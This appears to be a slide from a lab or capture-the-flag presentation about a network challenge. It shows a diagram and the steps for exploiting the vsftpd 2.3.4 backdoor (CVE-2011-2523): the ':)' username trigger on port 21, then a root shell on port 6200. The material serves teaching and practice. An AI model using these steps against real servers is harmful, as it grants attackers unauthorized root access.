

# II. Network and use after free challenge
Phase I : Attack on DMZ using FTP vulnerability
Network diagram

FTP server vulnerability

id : CVE-2011-2523
type : backdoor
target : vsftpd v2.3.4
10.42.3.1/24
Private machine
Exploitation

Terminal 1

connect to 10.43.2.1
on port 21 (ftp)
USER x:)
PASS <anything>

ssh
any
Firewall
Ftp server
Terminal 2

connect to 10.43.2.1
on port 6200 (backdoor)
$ whoami
root
10.42.1-3.2/24
10.42.2.1/24
ftp
ssh
any
any
Attacker machine
10.42.1.1/24